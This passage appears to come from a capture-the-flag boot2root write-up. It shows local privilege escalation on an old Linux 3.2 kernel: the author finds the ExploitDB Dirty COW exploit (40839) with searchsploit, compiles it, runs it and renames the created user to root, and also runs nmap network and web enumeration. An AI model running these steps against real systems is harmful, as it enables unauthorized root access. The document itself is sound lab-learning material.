 ![](https://raw.githubusercontent.com/Gharbaoui/pictures/refs/heads/master/boot2root/pics/47.png)

but
```sh
uname -a
```
gives
```
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
```

which is very old for reference now it's at *6.11*, so old means it's vulnerable
so let's look for common CVEs `https://www.cvedetails.com/vulnerability-list/vendor_id-33/product_id-47/version_id-478673/Linux-Linux-Kernel-3.2.html`

I couldn’t find it here—I haven’t looked extensively yet. So, I decided to use ExploitDB, 
specifically the command *searchsploit* kernel 3.2, to get a list of CVEs.

![](https://raw.githubusercontent.com/Gharbaoui/pictures/refs/heads/master/boot2root/pics/48.png)

After some trials, I found this one:

![](https://raw.githubusercontent.com/Gharbaoui/pictures/refs/heads/master/boot2root/pics/49.png)

here's the c file "https://gitlab.com/exploit-database/exploitdb/-/blob/main/exploits/linux/local/40839.c?ref_type=heads"

The reverse shell I obtained doesn’t provide a user-friendly editor like Vim or Nano, so I did 
this:

```sh
echo '
c source code
' > test.c
gcc -pthread ./scripts/40839_mod.c -o dirty -lcrypt
./dirty 1234
```

I modified the source code slightly to remove the single quotes, so it doesn't end prematurely 
in the echo command.

and change firefart to root

![](https://raw.githubusercontent.com/Gharbaoui/pictures/refs/heads/master/boot2root/pics/50.png)
![](https://raw.githubusercontent.com/Gharbaoui/pictures/refs/heads/master/boot2root/pics/51.png)

wait a bit

![](https://raw.githubusercontent.com/Gharbaoui/pictures/refs/heads/master/boot2root/pics/52.png)


### Steps
#### IP Discovery
```sh
ip addr show
nmap 192.168.100.0/24
nmap -sT -p 80,443 192.168.100.0/24
```
#### Subpages
```sh
nmap --script http-enum 192.168.100.14
```

